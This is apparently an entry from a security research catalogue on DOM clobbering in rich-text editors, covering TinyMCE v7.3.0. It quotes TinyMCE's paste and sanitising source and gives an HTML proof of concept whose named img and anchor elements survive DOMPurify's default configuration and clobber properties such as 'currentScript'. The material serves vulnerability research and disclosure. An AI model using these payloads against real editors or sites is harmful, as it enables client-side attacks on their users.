 ## TinyMCE

### Meta

+ Library: TinyMCE-v5/6/7
+ Version: v7.3.0
+ Stars: 14.9K
+ Fingerprint: `typeof(window.tinymce) !== undefined`
+ Input: Copy&Paste
+ Sanitizer: DOMPurify
+ Capability: Any named property without collision
+ CVE: N/A
+ Status: N/A

### Library

https://github.com/tinymce/tinymce


### Vulnerable Code Snippet

Paste HTML
```
// https://github.com/tinymce/tinymce/blob/fbd71ae6a26251a56d72189a5788dd0554343e94/modules/tinymce/src/core/main/ts/paste/Clipboard.ts#L63
const pasteHtml = (editor: Editor, html: string, internalFlag: boolean, shouldSimulateInputEvent: boolean): void => {
  const internal = internalFlag ? internalFlag : InternalHtml.isMarked(html);
  doPaste(editor, InternalHtml.unmark(html), internal, false, shouldSimulateInputEvent);
};
```

TinyMCE internally uses the DOMPurify with defualt configuration to sanitize the input.
```
// https://github.com/tinymce/tinymce/blob/fbd71ae6a26251a56d72189a5788dd0554343e94/modules/tinymce/src/core/main/ts/paste/ProcessFilters.ts#L52
// https://github.com/tinymce/tinymce/blob/fbd71ae6a26251a56d72189a5788dd0554343e94/modules/tinymce/src/core/main/ts/api/html/DomParser.ts#L291
  const parseAndSanitizeWithContext = (html: string, rootName: string, format: string = 'html'): Element => {
    const mimeType = format === 'xhtml' ? 'application/xhtml+xml' : 'text/html';
    // Determine the root element to wrap the HTML in when parsing. If we're dealing with a
    // special element then we need to wrap it so the internal content is handled appropriately.
    const isSpecialRoot = Obj.has(schema.getSpecialElements(), rootName.toLowerCase());
    const content = isSpecialRoot ? `<${rootName}>${html}</${rootName}>` : html;
    const makeWrap = () => {
      if (format === 'xhtml') {
        // If parsing XHTML then the content must contain the xmlns declaration, see https://www.w3.org/TR/xhtml1/normative.html#strict
        return `<html xmlns="http://www.w3.org/1999/xhtml"><head></head><body>${content}</body></html>`;
      } else if (/^[\s]*<head/i.test(html) || /^[\s]*<html/i.test(html) || /^[\s]*<!DOCTYPE/i.test(html)) {
        return `<html>${content}</html>`;
      } else {
        return `<body>${content}</body>`;
      }
    };

    const body = parser.parseFromString(makeWrap(), mimeType).body;
    sanitizer.sanitizeHtmlElement(body, mimeType);
    return isSpecialRoot ? body.firstChild as Element : body;
  };
```


### PoC 

```html
<!--Library-->
<script src="https://cdn.tiny.cloud/1/kvw088syhtkdcjivzwu785cisjwpon4zfjj2isannsfsw555/tinymce/7/tinymce.min.js" referrerpolicy="origin"></script>

<script>
  tinymce.init({
  selector: 'textarea#default'
});
</script>
<textarea id="default">Hello, World!</textarea>
<!--Library-->


<!--Payload-->
<img name="currentScript" src="https://xxx.xxx.xxx">
<img name="attack" src="https://xxx.xxx.xxx">
<a name="attack" href="https://xxx.xxx.xxx">AAA</a>
<p>Copy & Paste the following rendered HTML elements to the editor and Run the following code: tinymce.activeEditor.getContent("default");</p>
<!--Payload-->
```